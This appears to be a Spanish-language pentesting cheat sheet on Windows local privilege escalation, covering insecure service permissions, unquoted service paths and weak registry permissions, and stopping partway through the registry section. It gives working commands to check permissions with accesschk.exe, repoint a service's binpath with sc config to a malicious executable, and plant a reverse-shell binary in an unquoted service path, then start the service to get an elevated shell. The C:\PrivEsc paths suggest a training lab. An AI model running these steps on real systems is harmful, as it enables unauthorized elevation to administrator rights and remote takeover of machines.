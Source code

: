 ### EXPLOTACION DE SERVICIOS CON PERMISOS INSEGUROS:

Luego de listar los servicios corriendo en el servidor podemos consultar por medio de la herramienta accesschk.exe (tenemos que introducirla en el sistema) los permisos que tiene el user sobre la misma con el comando:

    accesschk.exe /accepteula -uwcqv USUARIO_EN_USO SERVICIO_A_CONSULTAR

si la opción SERVICE_CHANGE_CONFIG se encuentra dentro de RW(read and write)
Podremos modificar su configuración.

Podemos hacer una query al servicio para ver con qué privilegios/user corre con el comando:


    sc qc servicio

Si el servicio corre con usuarios administradores o super usuarios (SERVICE_START_NAME)nos es propicio para ser utilizado para elevar privilegios:
modificaremos el BINPATH del mismo para que al momento de ser ejecutado, llame a un nuevo proceso o programa malicioso.

    sc config daclsvc binpath= "\"C:\PATH\TO\MALICIOUS.exe""

ahora podemos correr el servicio y que nos genere una shell reversa:
    
    net start servicio

### EXPLOTACIÖN DE SERVICIOS UNQUOTED:

Es posible explotarlo cuando el path del servicio no está entre comillas y tiene espacios en los nombres del path.

Hacemos una query al servicio y vemos si el BINARY_PATH_FILE se encuentra con las caracteristicas antes mencionadas:

        sc qc servicio

Vemos con accesschk.exe quienes pueden escribir en el directorio del servicio:

        accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" 

Si nuestro usuario/grupo al que pertenece puede leer y escribir reemplazamos el archivo commons.exe por nuestro binario con la reverse shell:

        copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"

ponemos un netcat en listener y corremos el servicio


        net start servicio

### WEAK REGISTRY PERMISSIONS:

Una vez identificado un servicio que corre con privilegios elevados, corremos el accesschk.exe para ver si nuestro user/grupo al que pertenece puede escribir entradas de registro:

        accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\servicio

De tenerlos, podemos reescribir el imagepath key para que apunte a un archivo malicioso:

